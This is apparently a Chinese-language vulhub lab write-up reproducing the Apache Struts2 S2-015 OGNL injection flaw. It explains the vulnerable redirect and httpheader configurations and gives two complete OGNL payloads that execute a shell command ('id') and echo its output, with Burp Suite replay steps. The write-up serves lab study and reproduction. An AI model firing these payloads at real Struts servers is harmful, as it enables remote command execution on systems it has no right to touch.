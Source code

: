 # Struts2_015_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行--->有回显

### 0x01漏洞介绍

​		如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```java
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

​			影响版本

  		2.0.0 - 2.3.14.2

### 0x02漏洞复现

#### payload1：

${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('**id**').getInputStream()),#q}

（需要对payload进行url完全编码）

​			**登录界面**

![S2_015_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_015_rce_1.jpg)

​			**Burpsuite改包重放，有回显，发现id被执行**

![S2_015_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_015_rce_2.jpg)



除上述情况外，S2-015还有另一种代码执行情况：

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

#### payload2：

%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"**id**"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

(需要对payload进行url完全编码）

​			**url完全编码链接：http://web.chacuo.net/charseturlencode**

![S2_015_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_015_rce_3.jpg)

​			**Burpsuite改包，发现id被执行**

![S2_015_rce_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_015_rce_4.jpg)



### 0x03参考资料

https://blog.csdn.net/qq_45625605/article/details/103138548
